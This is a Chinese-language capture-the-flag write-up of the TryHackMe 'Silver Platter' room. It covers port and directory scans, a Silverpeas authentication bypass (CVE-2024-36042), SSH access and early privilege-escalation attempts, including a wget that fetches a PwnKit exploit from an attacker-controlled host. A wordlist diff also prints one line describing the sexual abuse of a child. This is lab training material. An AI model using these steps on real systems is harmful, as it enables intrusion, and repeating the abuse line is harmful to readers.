



## 概述

來源: tryhackme  
題目: Silver Platter  
難度: easy  
網址: https://tryhackme.com/room/silverplatter
靶機: `10.10.103.215`

## nmap

先掃描常出現的 port

```bash
nmap -sV -sC -v 10.10.103.215

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 b7:ba:cb:7a:b5:a6:12:57:85:90:89:57:ab:60:f5:0a (ECDSA)
|_  256 8b:3e:15:4f:c7:a0:da:4e:88:54:1d:16:65:77:89:92 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
8080/tcp open  http-proxy
|_http-title: Error
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Wed, 29 Oct 2025 04:44:00 GMT
|     <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SMBProgNeg, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Length: 0
|     Connection: close
|   GetRequest:
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Wed, 29 Oct 2025 04:43:57 GMT
|     <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|   HTTPOptions:
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Wed, 29 Oct 2025 04:43:58 GMT
|_    <html><head><title>Error</title></head><body>404 - Not Found</body></html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.95%I=7%D=10/29%Time=69019B8D%P=aarch64-unknown-linux-g
SF:nu%r(GetRequest,C9,"HTTP/1\.1\x20404\x20Not\x20Found\r\nConnection:\x20
SF:close\r\nContent-Length:\x2074\r\nContent-Type:\x20text/html\r\nDate:\x
SF:20Wed,\x2029\x20Oct\x202025\x2004:43:57\x20GMT\r\n\r\n<html><head><titl
SF:e>Error</title></head><body>404\x20-\x20Not\x20Found</body></html>")%r(
SF:HTTPOptions,C9,"HTTP/1\.1\x20404\x20Not\x20Found\r\nConnection:\x20clos
SF:e\r\nContent-Length:\x2074\r\nContent-Type:\x20text/html\r\nDate:\x20We
SF:d,\x2029\x20Oct\x202025\x2004:43:58\x20GMT\r\n\r\n<html><head><title>Er
SF:ror</title></head><body>404\x20-\x20Not\x20Found</body></html>")%r(RTSP
SF:Request,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\
SF:r\nConnection:\x20close\r\n\r\n")%r(FourOhFourRequest,C9,"HTTP/1\.1\x20
SF:404\x20Not\x20Found\r\nConnection:\x20close\r\nContent-Length:\x2074\r\
SF:nContent-Type:\x20text/html\r\nDate:\x20Wed,\x2029\x20Oct\x202025\x2004
SF::44:00\x20GMT\r\n\r\n<html><head><title>Error</title></head><body>404\x
SF:20-\x20Not\x20Found</body></html>")%r(Socks5,42,"HTTP/1\.1\x20400\x20Ba
SF:d\x20Request\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%
SF:r(GenericLines,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length
SF::\x200\r\nConnection:\x20close\r\n\r\n")%r(Help,42,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n
SF:")%r(SSLSessionReq,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Le
SF:ngth:\x200\r\nConnection:\x20close\r\n\r\n")%r(TerminalServerCookie,42,
SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\nConnecti
SF:on:\x20close\r\n\r\n")%r(TLSSessionReq,42,"HTTP/1\.1\x20400\x20Bad\x20R
SF:equest\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r(Kerb
SF:eros,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\n
SF:Connection:\x20close\r\n\r\n")%r(SMBProgNeg,42,"HTTP/1\.1\x20400\x20Bad
SF:\x20Request\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r
SF:(LPDString,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x2
SF:00\r\nConnection:\x20close\r\n\r\n")%r(LDAPSearchReq,42,"HTTP/1\.1\x204
SF:00\x20Bad\x20Request\r\nContent-Length:\x200\r\nConnection:\x20close\r\
SF:n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

怕有遺漏 掃描全部 port

```bash
nmap -p- -v 10.10.103.215 -T4

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

## gobuster

```bash
└─$ gobuster dir -u http://10.10.103.215/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.103.215/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 178] [--> http://10.10.103.215/images/]
/assets               (Status: 301) [Size: 178] [--> http://10.10.103.215/assets/]
Progress: 220559 / 220560 (100.00%)
===============================================================
Finished
===============================================================
```

## HTML5 UP

訪問 `http://10.10.103.215/`
發現是 `HTML5 UP`

http://10.10.103.215/#contact
發現 user name scr1ptkiddy

## steghide

```bash
└─$ wget http://10.10.103.215/images/pic01.jpg
--2025-10-29 12:49:24--  http://10.10.103.215/images/pic01.jpg
Connecting to 10.10.103.215:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2025657 (1.9M) [image/jpeg]
Saving to: ‘pic01.jpg’

pic01.jpg          100%[================>]   1.93M   259KB/s    in 7.6s

2025-10-29 12:49:32 (259 KB/s) - ‘pic01.jpg’ saved [2025657/2025657]


┌──(kali㉿kali)-[~/tryhackme/silverplatter]
└─$ ls
pic01.jpg

┌──(kali㉿kali)-[~/tryhackme/silverplatter]
└─$ steghide extract -sf pic01.jpg
Enter passphrase:
steghide: could not extract any data with that passphrase!
```

## nginx 漏洞確認

確認一下 nginx 1.18.0 漏洞

```bash
└─$ searchsploit nginx
------------------------------------------ ---------------------------------
 Exploit Title                            |  Path
------------------------------------------ ---------------------------------
Nginx (Debian Based Distros + Gentoo) - ' | linux/local/40768.sh
Nginx 0.6.36 - Directory Traversal        | multiple/remote/12804.txt
Nginx 0.6.38 - Heap Corruption            | linux/local/14830.py
Nginx 0.6.x - Arbitrary Code Execution Nu | multiple/webapps/24967.txt
Nginx 0.7.0 < 0.7.61 / 0.6.0 < 0.6.38 / 0 | linux/dos/9901.txt
Nginx 0.7.61 - WebDAV Directory Traversal | multiple/remote/9829.txt
Nginx 0.7.64 - Terminal Escape Sequence i | multiple/remote/33490.txt
Nginx 0.7.65/0.8.39 (dev) - Source Disclo | windows/remote/13822.txt
Nginx 0.8.36 - Source Disclosure / Denial | windows/remote/13818.txt
Nginx 1.1.17 - URI Processing SecURIty By | multiple/remote/38846.txt
Nginx 1.20.0 - Denial of Service (DOS)    | multiple/remote/50973.py
Nginx 1.3.9 < 1.4.0 - Chuncked Encoding S | linux/remote/25775.rb
Nginx 1.3.9 < 1.4.0 - Denial of Service ( | linux/dos/25499.py
Nginx 1.3.9/1.4.0 (x86) - Brute Force     | linux_x86/remote/26737.pl
Nginx 1.4.0 (Generic Linux x64) - Remote  | linux_x86-64/remote/32277.txt
PHP-FPM + Nginx - Remote Code Execution   | php/webapps/47553.md
------------------------------------------ ---------------------------------
Shellcodes: No Results
```

> nginx 官方 漏洞列表
> https://nginx.org/en/security_advisories.html

嘗試
https://github.com/M507/CVE-2021-23017-PoC

> 問了 AI 此漏洞 (CVE-2021-23017) 相關資訊
> 才發現漏洞利用條件嚴格需要:
> 
> - Nginx 版本 0.6.18 - 1.20.0 (你的目標是 1.18.0,符合)
> - 特定的 DNS 響應格式觸發 off-by-one
> - 這個 PoC 只是概念驗證,並非完整的 exploit chain

改其他方向

## 自製字典
這邊參考大神的 [writeup](https://github.com/injcristianrojas/writeups/tree/main/thm/20250110_silverplatter)  
發現剛剛 gobuster 但 route 少了關鍵信息  
是我字典少了重要單字
```bash
┌──(kali㉿kali)-[/usr/share/seclists/Discovery/Web-Content]
└─$ grep -R -I 'weblib' . 2>/dev/null
./directory-list-1.0.txt:weblibs
./directory-list-2.3-big.txt:weblibs
./raft-large-words.txt:weblib
./raft-medium-directories-lowercase.txt:weblib
./raft-medium-words.txt:weblib
./raft-large-words-lowercase.txt:weblib
./directory-list-lowercase-2.3-big.txt:pyweblib
./directory-list-lowercase-2.3-big.txt:weblibs
./raft-medium-words-lowercase.txt:weblib
./raft-large-directories-lowercase.txt:weblib
./combined_directories.txt:weblib
./combined_directories.txt:weblibs
./combined_words.txt:weblib
./raft-large-directories.txt:weblib
```

察覺到我以前透過 gobuster 掃描 dir 的 wordlists 路徑有兩種
```bash
/usr/share/seclists/Discovery/Web-Content/
/usr/share/wordlists/dirbuster/
```
比較一下類似 wordlist 的差異

```bash
└─$ diff /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

5,8c5,8
< # This work is licensed under the Creative Commons
< # Attribution-Share Alike 3.0 License. To view a copy of this
< # license, visit http://creativecommons.org/licenses/by-sa/3.0/
< # or send a letter to Creative Commons, 171 Second Street,
---
> # This work is licensed under the Creative Commons
> # Attribution-Share Alike 3.0 License. To view a copy of this
> # license, visit http://creativecommons.org/licenses/by-sa/3.0/
> # or send a letter to Creative Commons, 171 Second Street,
11,12c11,12
< # Priority ordered case-sensitive list, where entries were found
< # on at least 2 different hosts
---
> # Priority ordered case sensative list, where entries were found
> # on atleast 2 different hosts
4238c4238
< versions
---
> versions
68879c68879
< idf
---
> idf
126067a126068
> 13yo lolita rape and crying with feet bound - bd sm bdsm torture slave bondage
212204c212205
< t3838
---
> t3838
219911c219912
< t1446
---
> t1446
```

 `--strip-trailing-cr` 避免 Windows 換行符差異

```bash
└─$ diff --strip-trailing-cr /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
5,8c5,8
< # This work is licensed under the Creative Commons
< # Attribution-Share Alike 3.0 License. To view a copy of this
< # license, visit http://creativecommons.org/licenses/by-sa/3.0/
< # or send a letter to Creative Commons, 171 Second Street,
---
> # This work is licensed under the Creative Commons
> # Attribution-Share Alike 3.0 License. To view a copy of this
> # license, visit http://creativecommons.org/licenses/by-sa/3.0/
> # or send a letter to Creative Commons, 171 Second Street,
11,12c11,12
< # Priority ordered case-sensitive list, where entries were found
< # on at least 2 different hosts
---
> # Priority ordered case sensative list, where entries were found
> # on atleast 2 different hosts
126067a126068
> 13yo lolita rape and crying with feet bound - bd sm bdsm torture slave bondage

```

> └─$ diff --help | grep -- --strip-trailing-cr  
> --strip-trailing-cr strip trailing carriage return > on input  
> 輸入時去除尾隨回車符

 `-u` 比較前後三行

```bash
└─$ diff --strip-trailing-cr /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u
--- /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt2025-04-25 22:03:33.000000000 +0800
+++ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt        2009-02-27 18:00:56.000000000 +0800
@@ -2,14 +2,14 @@
 #
 # Copyright 2007 James Fisher
 #
-# This work is licensed under the Creative Commons
-# Attribution-Share Alike 3.0 License. To view a copy of this
-# license, visit http://creativecommons.org/licenses/by-sa/3.0/
-# or send a letter to Creative Commons, 171 Second Street,
+# This work is licensed under the Creative Commons
+# Attribution-Share Alike 3.0 License. To view a copy of this
+# license, visit http://creativecommons.org/licenses/by-sa/3.0/
+# or send a letter to Creative Commons, 171 Second Street,
 # Suite 300, San Francisco, California, 94105, USA.
 #
-# Priority ordered case-sensitive list, where entries were found
-# on at least 2 different hosts
+# Priority ordered case sensative list, where entries were found
+# on atleast 2 different hosts
 #

 index
@@ -126065,6 +126065,7 @@
 148518
 2-nw
 44349
+13yo lolita rape and crying with feet bound - bd sm bdsm torture slave bondage
 44337
 11957
 62143
```

> └─$ diff --help | grep -- -u    
>  -u, -U NUM, --unified[=NUM] output NUM (default 3) lines of unified context  

基本好像差異也不大  
原本有兩個方向
1. 先用小字典快速掃描，在用大字典掃描完全
2. 自己做一個自己的字典

後來嘗試自己做一個字典檔

```bash
┌──(kali㉿kali)-[/usr/share/seclists/Discovery/Web-Content]
└─$ mkdir ~/wordlists                         
                                                                            
┌──(kali㉿kali)-[/usr/share/seclists/Discovery/Web-Content]
└─$ cat /usr/share/wordlists/dirb/common.txt \
    /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt \
    | sort -u > ~/wordlists/my-web-medium.txt
                                                                            
┌──(kali㉿kali)-[/usr/share/seclists/Discovery/Web-Content]
└─$ wc ~/wordlists/my-web-medium.txt 
 63745  63748 530811 /home/kali/wordlists/my-web-medium.txt
                                                                            
┌──(kali㉿kali)-[/usr/share/seclists/Discovery/Web-Content]
└─$ wc /usr/share/wordlists/dirb/common.txt
 4614  4617 35849 /usr/share/wordlists/dirb/common.txt
                                                             
┌──(kali㉿kali)-[/usr/share/seclists/Discovery/Web-Content]
└─$ wc /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt
 63088  63088 524649 /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt
```
> └─$ sort --help | grep -- -u                  
  -u, --unique              output only the first of lines with equal keys;  
> 去除重複的單字  

但後來覺得做一個小一點的掃描比較快
反正目前靶機平台夠用就好
```bash
┌──(kali㉿kali)-[~/wordlists]
└─$ cp /usr/share/seclists/Discovery/Web-Content/common.txt directories.txt
                                                                            
┌──(kali㉿kali)-[~/wordlists]
└─$ wc directories.txt 
 4746  4750 38467 directories.txt
                                                                            
┌──(kali㉿kali)-[~/wordlists]
└─$ echo "weblib" >> directories.txt 
                                                                            
┌──(kali㉿kali)-[~/wordlists]
└─$ wc directories.txt 
 4747  4751 38474 directories.txt
```


## feroxbuster
換個字典 也換個工具 掃描 route


```bash
└─$ feroxbuster -u http://10.10.239.210:8080/ -w ~/wordlists/directories.txt -t 100 -C 404 
                                                                            
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.239.210:8080/
 🚩  In-Scope Url          │ 10.10.239.210
 🚀  Threads               │ 100
 📖  Wordlist              │ /home/kali/wordlists/directories.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        1l        4w       74c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
302      GET        0l        0w        0c http://10.10.239.210:8080/console => http://10.10.239.210:8080/noredirect.html
302      GET        0l        0w        0c http://10.10.239.210:8080/website => http://10.10.239.210:8080/website/
404      GET        1l        2w       68c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
302      GET        0l        0w        0c http://10.10.239.210:8080/weblib => http://10.10.239.210:8080/weblib/
302      GET        0l        0w        0c http://10.10.239.210:8080/weblib/applets => http://10.10.239.210:8080/weblib/applets/
302      GET        0l        0w        0c http://10.10.239.210:8080/weblib/ckeditor => http://10.10.239.210:8080/weblib/ckeditor/
302      GET        0l        0w        0c http://10.10.239.210:8080/weblib/exchange => http://10.10.239.210:8080/weblib/exchange/
200      GET        3l        6w       72c http://10.10.239.210:8080/weblib/robots.txt
302      GET        0l        0w        0c http://10.10.239.210:8080/weblib/skins => http://10.10.239.210:8080/weblib/skins/
[####################] - 71s    33236/33236   0s      found:8       errors:0      
[####################] - 26s     4748/4748    179/s   http://10.10.239.210:8080/ 
[####################] - 25s     4748/4748    193/s   http://10.10.239.210:8080/website/ 
[####################] - 25s     4748/4748    188/s   http://10.10.239.210:8080/weblib/ 
[####################] - 25s     4748/4748    190/s   http://10.10.239.210:8080/weblib/applets/ 
[####################] - 25s     4748/4748    188/s   http://10.10.239.210:8080/weblib/ckeditor/ 
[####################] - 25s     4748/4748    191/s   http://10.10.239.210:8080/weblib/exchange/ 
[####################] - 24s     4748/4748    198/s   http://10.10.239.210:8080/weblib/skins/            
```

### robots.txt
```bash
User-agent: *
Disallow: /silverpeas/
Allow: /silverpeas/defaultLogin.jsp
```

### 更新一下自己的字典
```bash
┌──(kali㉿kali)-[~/wordlists]
└─$ echo "silverpeas" >> directories.txt
          
┌──(kali㉿kali)-[~/wordlists]
└─$ wc directories.txt 
 4748  4752 38485 directories.txt

```

## silverpeas 登入窗口
`http://10.10.93.45:8080/silverpeas/defaultLogin.jsp`  
確認 source  
`view-source:http://10.10.93.45:8080/silverpeas/defaultLogin.jsp`  
猜測應該是 `silverpeas 6.3.1` 版本
```bash
<script type='text/javascript' src='/silverpeas/util/javaScript/polyfill/eventsource.min.631.js' language='Javascript'></script>
<script type='text/javascript' src='/silverpeas/util/javaScript/polyfill/customEventIEPolyfill.min.631.js' language='Javascript'></script>
<script type='text/javascript' src='/silverpeas/util/javaScript/polyfill/eventListenerIEPolyfill.min.631.js' language='Javascript'></script>
<script type='text/javascript' src='/silverpeas/util/javaScript/polyfill/silverpeas-polyfills-min.631.js' language='Javascript'></script>
<script type='text/javascript' src='/silverpeas/util/javaScript/polyfill/silverpeas-fscreen-min.631.js' language='Javascript'></script>
```

## CVE-2024-36042
google `silverpeas exploit`  
發現 https://github.com/advisories/GHSA-4w54-wwc9-x62c
```bash
Silverpeas before 6.3.5 allows authentication bypass by omitting the Password field to AuthenticationServlet, often providing an unauthenticated user with superadmin access.
```

 `CVE-2024-36042` exploit 方法
https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d

透過 burpsuite intercept 刪除 password 欄位  
使用 `SilverAdmin` 成功登入


點 `Administration` > `Utilisateurs & groupes` > `domainSilverpeas` 發現 3 組 users
```csv
"Etat";"Nom";"Prénom";"Dernière connexion"
"";"Administrateur";"";"30/10/2025 02:11"
"";"Manager";"Manager";"30/10/2025 02:06"
"";"scr1ptkiddy";"scr1ptkiddy";""
```

## get shell
透過 `Manager` 以剛剛 intercept 方式登入
發現 ssh 密碼


```bash
└─$ ssh tim@10.10.93.45          
tim@10.10.93.45's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Oct 30 02:17:07 AM UTC 2025

  System load:  0.00390625         Processes:                125
  Usage of /:   60.9% of 12.94GB   Users logged in:          0
  Memory usage: 51%                IPv4 address for docker0: 172.17.0.1
  Swap usage:   0%                 IPv4 address for ens5:    10.10.93.45

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

261 updates can be applied immediately.
180 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Dec 13 16:33:12 2023 from 192.168.1.20

tim@ip-10-10-93-45:~$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

### get user.txt
```bash
tim@ip-10-10-93-45:~$ ls -la
total 12
dr-xr-xr-x 2 root root 4096 Dec 13  2023 .
drwxr-xr-x 6 root root 4096 Jul 21 20:10 ..
-rw-r--r-- 1 root root   38 Dec 13  2023 user.txt
tim@ip-10-10-93-45:~$ cat user.txt 
THM{c4...9b}
```

## 提權

```bash
tim@ip-10-10-93-45:~$ sudo -l
[sudo] password for tim: 
Sorry, user tim may not run sudo on ip-10-10-93-45.
```

```bash
tim@ip-10-10-93-45:~$ find / -perm -4000 -type f 2>/dev/null
/snap/core20/2264/usr/bin/chfn
/snap/core20/2264/usr/bin/chsh
/snap/core20/2264/usr/bin/gpasswd
/snap/core20/2264/usr/bin/mount
/snap/core20/2264/usr/bin/newgrp
/snap/core20/2264/usr/bin/passwd
/snap/core20/2264/usr/bin/su
/snap/core20/2264/usr/bin/sudo
/snap/core20/2264/usr/bin/umount
/snap/core20/2264/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/2264/usr/lib/openssh/ssh-keysign
/snap/core20/2599/usr/bin/chfn
/snap/core20/2599/usr/bin/chsh
/snap/core20/2599/usr/bin/gpasswd
/snap/core20/2599/usr/bin/mount
/snap/core20/2599/usr/bin/newgrp
/snap/core20/2599/usr/bin/passwd
/snap/core20/2599/usr/bin/su
/snap/core20/2599/usr/bin/sudo
/snap/core20/2599/usr/bin/umount
/snap/core20/2599/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/2599/usr/lib/openssh/ssh-keysign
/snap/snapd/20290/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/fusermount3
/usr/bin/passwd
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/su
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/umount
/usr/libexec/polkit-agent-helper-1
```

### CVE-2021-4034 (失敗)
確認版本
```bash
tim@ip-10-10-93-45:~$ /usr/bin/pkexec --version
pkexec version 0.105
```

下載 POC 發現沒權限
```bash
tim@ip-10-10-93-45:~$ wget 10.4.11.38:666/PwnKit
--2025-10-30 02:24:29--  http://10.4.11.38:666/PwnKit
Connecting to 10.4.11.38:666... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18040 (18K) [application/octet-stream]
PwnKit: Permission denied

Cannot write to ‘PwnKit’ (Permission denied).
```

找 writable 的路徑
```bash
tim@ip-10-10-93-45:~$ find / -type d -writable 2>/dev/null
/var/crash
/var/tmp
/tmp
/tmp/.font-unix
/tmp/.Test-unix
/tmp/.XIM-unix
/tmp/.ICE-unix
/tmp/.X11-unix
/dev/mqueue
/dev/shm
/proc/3126/task/3126/fd
